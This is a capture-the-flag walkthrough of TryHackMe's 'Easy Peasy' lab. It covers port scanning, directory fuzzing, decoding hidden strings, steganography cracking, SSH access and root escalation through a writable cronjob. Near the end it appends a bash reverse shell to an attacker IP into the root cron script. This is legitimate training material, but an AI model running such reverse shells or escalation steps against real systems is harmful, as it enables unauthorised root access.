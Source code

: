 ```bash
# PLATFORM          . THM
# CTF NAME          . Easy Peasy
# DESCRIPTION       . Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/easypeasyctf
```

```
sudo nmap -sSVC -T5 -p- 10.10.82.34 -oN easy
```

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-title: Welcome to nginx!
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1

6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 304a2b22acd95609f2da122057f46cd4 (RSA)
|   256 bf86c9c7b7ef8c8bb994ae0188c0854d (ECDSA)
|_  256 a172ef6c812913ef5a6c24034cfe3d0b (ED25519)

65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The first 3 questions on the CTF can be answered from this output alone. NGINX version is `1.16.1`, there are `3` open ports and `apache` is running on the higher port.

- `robots.txt` on port 80 doesn't reveal anything useful in particular

```
ffuf -u http://10.10.82.34/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
h{redacted}n                  [Status: 301, Size: 169, Words: 5, Lines: 8]
```

- Fuzzing the webserver we can find the `/hidden` directory.

- However, this doesn't help us much. Let's fuzz it one more time.

```
ffuf -u http://10.10.82.34/{redacted}/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
w{redacted}r                [Status: 301, Size: 169, Words: 5, Lines: 8]
```

- Here, in `/w{redacted}r`, if we inspect the source code of the page, we can find a base64 encoded text: `Zm{redacted}Q==`. 

- The decoded output of this message is the first flag.

- For the next flag, we need to head to `/robots.txt` on port `65524`. 

- I tried fuzzing this one too but I couldn't find anything.

```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18{redacted}250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- We could use burp to change the user agent to be able to see the webpage, but I didn't think it's worth for now. I used `curl` instead.

```
curl http://10.10.82.34:65524 -A a186{redacted}3b250
```

- If we look carefully in the output, we can find the following:

```
<p hidden>its encoded with ba....:ObsJmP1{redacted}0Vu</p>
```

```
Fl4g 3 : flag{9fdafbd6{redacted}4cd312}
```

- Alright. The base used to encode the first message is `base62`. I used [this](https://www.dcode.fr/cipher-identifier) website to identify the encoding used. 

- After decoding the message ([here](https://www.dcode.fr/base62-encoding)), we get the next directory, `/n0t{redacted}3r`.

- In the source code we find `940d71e8655ac{redacted}7d1483e7f5fe6fd81`

- This is a `sha256` and the CTF gives us a file, `easypeasy.txt`. Let's use this wordlist to crack the hash.

- For some reason, John wasn't able to crack this using `easypeasy.txt` and I was sure I'm not doing something wrong syntax-wise. 

- I started revising my steps up until this point, thinking that maybe I've missed something. And I did, kinda.

- Along with the hash in the `/n0th{redacted}t3r` directory there was a local image this time (the others were sourced to the site using their URL)

- I used `wget` to download the `binarycodepixabay.jpg`. `binwalk` did not reveal anything and the output of `strings` made me skeptical, so I ran `steghide --extract -sf` and I got `steghide: could not extract any data with that passphrase!`

- My next move was `stegcrack`.

```
stegcracker binarycodepixabay.jpg easypeasy.txt 
```

- The password to extract the content from the file is `myp[redacted]ob` and the content of the file is

```
username:boring
password: 0110{redacted}1
```

- Let's SSH to the box.

- User flag is in `/home/boring/user.txt` but

```
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0j{REDACTED}4y}
```

- P.S: ROT13 was used to rotate this. 

- Privilege escalation is rather simple.

```
cat /etc/crontab 

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```
cat .mysecretcronjob.sh 

#!/bin/bash
# i will run as root
```

```
ls -l /var/www

-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

- As you can see, the `.mysecretcronjob.sh` is called as `root` via `crontab`. However, the bash script is owned by us, and thus, can be modified to whatever we like.

```
echo "sh -i >& /dev/tcp/10.11.53.46/3132 0>&1" >> .mysecretcronjob.sh
```

- This will append a simple bash reverse shell to the script.

- Shortly after, our listener will receive a connection as root.

- The root flag is in `/root/.root.txt

- Now, we're mising the `flag-2`... which.. damn :) I realised that the user agent found in `/robots.txt` on `port 65524` is not just a random value, it's actually a `MD5 hash`. 

- Crack it to get the flag :) [This](https://md5hashing.net/) should do the job.

